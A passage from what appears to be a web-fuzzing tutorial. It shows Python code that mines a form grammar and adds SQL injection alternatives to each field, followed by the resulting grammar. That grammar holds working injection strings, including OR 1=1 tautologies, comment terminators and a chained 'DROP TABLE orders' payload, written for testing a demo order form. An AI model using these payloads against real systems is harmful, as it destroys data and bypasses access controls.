 ```python
            "<text>": ["<string>", "<sql-injection-attack>"],
            "<number>": ["<digits>", "<sql-injection-attack>"],
            "<checkbox>": ["<_checkbox>", "<sql-injection-attack>"],
            "<email>": ["<_email>", "<sql-injection-attack>"],
            "<sql-injection-attack>": [
                cgi_encode(attack, "<->") for attack in self.ATTACKS
            ],
            "<sql-values>": ["", cgi_encode("<sql-values>, '<string>'", "<->")],
            "<sql-payload>": [cgi_encode(sql_payload)],
            "<sql-comment>": ["--", "#"],
        })
```

```python
html_miner = SQLInjectionGrammarMiner(
    html_text, sql_payload="DROP TABLE orders")
```

```python
grammar = html_miner.mine_grammar()
grammar
```

```python
{'<start>': ['<action>?<query>'],
 '<string>': ['<letter>', '<letter><string>'],
 '<letter>': ['<plus>', '<percent>', '<other>'],
 '<plus>': ['+'],
 '<percent>': ['%<hexdigit-1><hexdigit>'],
 '<hexdigit>': ['0',
  '1',
  '2',
  '3',
  '4',
  '5',
  '6',
  '7',
  '8',
  '9',
  'a',
  'b',
  'c',
  'd',
  'e',
  'f'],
 '<other>': ['0', '1', '2', '3', '4', '5', 'a', 'b', 'c', 'd', 'e', '-', '_'],
 '<text>': ['<string>', '<sql-injection-attack>'],
 '<number>': ['<digits>', '<sql-injection-attack>'],
 '<digits>': ['<digit>', '<digits><digit>'],
 '<digit>': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9'],
 '<checkbox>': ['<_checkbox>', '<sql-injection-attack>'],
 '<_checkbox>': ['on', 'off'],
 '<email>': ['<_email>', '<sql-injection-attack>'],
 '<_email>': ['<string>%40<string>'],
 '<hexdigit-1>': ['3', '4', '5', '6', '7'],
 '<submit>': [''],
 '<sql-injection-attack>': ["<string>'+<sql-values>)%3b+<sql-payload>%3b+<sql-comment>",
  "<string>'+<sql-comment>",
  "'+OR+1%3d1<sql-comment>'",
  '<number>+OR+1%3d1'],
 '<sql-values>': ['', "<sql-values>,+'<string>'"],
 '<sql-payload>': ['DROP+TABLE+orders'],
 '<sql-comment>': ['--', '#'],
 '<action>': ['/order'],
 '<item>': ['item=<item-value>'],
```
